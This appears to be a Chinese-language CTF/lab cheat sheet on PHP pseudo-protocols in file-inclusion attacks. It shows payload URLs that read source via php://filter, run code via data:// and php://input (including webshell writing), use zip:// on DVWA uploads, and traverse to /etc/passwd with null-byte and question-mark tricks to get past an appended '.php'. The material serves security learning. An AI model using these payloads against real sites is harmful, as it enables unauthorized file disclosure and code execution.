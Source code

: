 # php伪协议

## 1. 种类总结

```protocal
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```
## 2. 利用方法

### 2.1.php://filter

`php://filter`用于读取源码

```url
?page=php://filter/read=convert.base64-encode/resource=../flag.php
```

## 2.2.file://

用于访问本地文件系统，不受`allow_url_fopen`与`allow_url_include`的影响

即`file:// [文件的绝对路径和文件名]`

```url
?path=file:///var/www/html/flag.txt
```

## 2.3.php://input

`php://input` 可以访问请求的原始数据的只读流, 将`post`请求中的数据作为`PHP`代码执行

`php://input` 可以用来生成一句话

利用该方法，我们可以直接写入`php`文件，输入`file=php://input`，然后使用`burp`抓包，写入`php`代码

![php伪协议 Image 1](./img/26-1.png)

## 2.4.data://

利用`data://`伪协议可以直接达到执行`php`代码的效果，例如执行`phpinfo()`函数：

![php伪协议 Image 2](./img/26-2.png)

如果此处对特殊字符进行了过滤，我们还可以通过`base64`编码后再输入：

?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

## 2.5.zip://, bzip2://, zlib://
`zip://`, `bzip2://`, `zlib://` 均属于压缩流，可以访问压缩文件中的子文件，不需要指定后缀名

如果网站允许我们上传压缩文件，我们也可以将`php`文件压缩后进行上传，再通过`zip://`协议执行。（需要绝对路径）

以`DVWA`平台为例，我们将`phpinfo.php`文件进行压缩后上传

![php伪协议 Image 3](./img/26-3.png)

通过zip://协议执行zip压缩包中的phpinfo.php文件：

![php伪协议 Image 4](./img/26-4.png)

[参考链接之肖洋肖恩、](https://www.cnblogs.com/-mo-/p/11736445.html)


## 3.绕过方式

### 3.1. 绕过添加的.php和其他额外的文件结尾

通常通过 `php` 代码添加文件扩展名。这是它的样子：

```php
$file = $_GET['file'];
require($file . ".php");
```

#### 3.1.1 方法一 nullbyte %00

`php` 被添加到文件名中，这意味着我们将无法找到我们正在寻找的文件。由于该文件 `/etc/passwd.php` 不存在。但是，如果我们将 `nullbyte` 添加到攻击字符串的末尾， `.php` 则不会考虑 。因此，我们添加到 `%00` 攻击字符串的末尾。

```url
http://example.com/page=../../../../../../etc/passwd%00
```

这种技术通常称为 `nullbyte` 技术，因为 `%00` 是 `nullbyte`。该技术仅适用于 `php 5.3` 以下的版本。所以要注意这一点。

#### 3.1.2 问号隔断

```url
http://example.com/page=../../../../../../etc/passwd?
```

